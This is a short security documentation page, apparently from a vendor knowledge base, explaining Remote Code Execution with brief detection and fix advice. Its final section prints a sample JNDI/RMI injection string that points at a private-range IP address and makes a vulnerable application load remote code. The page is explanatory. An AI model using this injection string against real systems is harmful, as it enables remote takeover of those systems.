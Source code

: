 ```yaml
---
title: Remote Code Execution (RCE)
---
```


## What Is It?

Remote Code Execution occurs when a remote attacker can cause your application to reach out to another source to obtain instructions, often either a script or binary.

RCE is a common name that overlaps with similar vulnerability categories like [deserialization](deserialization.md)

## When Can It Affect My Application?

Remote Code Execution is commonly found in utilities where software engages remote code or allows items to be loaded. Common occurrences are often around Remote Method Invocation or dynamic loading utilities.

## How Do I Know If and Where I Have This Vulnerability?

Contrast Assess monitors execution and can detect Remote Code Execution vulnerabilities.

Contrast Protect can defend Remote Code Execution vulnerabilities.

## How Do I Fix It?

Developers should avoid frameworks that dynamically load remote code. Operators should harden an environment, preventing it from reaching out to remote sources outside its network or VPC.

## How Do People Attack Using This Flaw?
Attackers often inject Strings into applications that can be interpreted as something to load and run.

```
${jndi:rmi://192.168.2.106:1099/vccvhr}
```